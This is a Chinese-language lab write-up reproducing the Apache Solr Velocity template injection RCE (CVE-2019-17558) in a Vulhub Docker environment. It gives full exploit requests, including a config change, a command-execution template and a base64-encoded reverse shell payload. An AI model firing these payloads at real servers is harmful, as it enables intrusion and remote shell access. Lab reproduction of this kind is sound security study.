





Apache Solr Velocity 注入远程命令执行漏洞 CVE-2019-17558¶
漏洞描述¶
Apache Solr 是一个开源的搜索服务器。
在其 5.0.0 到 8.3.1版本中，用户可以注入自定义模板，通过Velocity模板语言执行任意命令。
具体漏洞原理和POC可以参考：
- https://nvd.nist.gov/vuln/detail/CVE-2019-17558
- https://issues.apache.org/jira/browse/SOLR-13971
- https://gist.github.com/s00py/a1ba36a3689fa13759ff910e179fc133
- https://github.com/jas502n/solr_rce
漏洞影响¶
Apache Solr 5.x 至 8.2.0
环境搭建¶
Vulhub执行如下命令启动一个Apache Solr 8.2.0服务器：
docker-compose up -d
服务启动后，访问http://your-ip:8983即可查看到一个无需权限的Apache Solr服务。
漏洞复现¶
默认情况下params.resource.loader.enabled配置未打开，无法使用自定义模板。我们先通过如下API获取所有的核心：
http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json
Vulhub里唯一的核心是demo：

通过如下请求开启params.resource.loader.enabled，其中API路径包含刚才获取的core名称：
POST /solr/demo/config HTTP/1.1
Host: your-ip:8983
Content-Type: application/json
Content-Length: 259
{
"update-queryresponsewriter": {
"startup": "lazy",
"name": "velocity",
"class": "solr.VelocityResponseWriter",
"template.base.dir": "",
"solr.resource.loader.enabled": "true",
"params.resource.loader.enabled": "true"
}
}

之后，注入Velocity模板即可执行任意命令：
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end

成功执行id命令：

构造反弹shell的POC（前后双引号也可以，编码是%22）：
'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}'
# URL编码后
%27bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%27
请求包如下：
GET /solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27bash%20-c%20%7Becho%2CYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: your-vps-ip:8983
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
成功接收反弹shell：
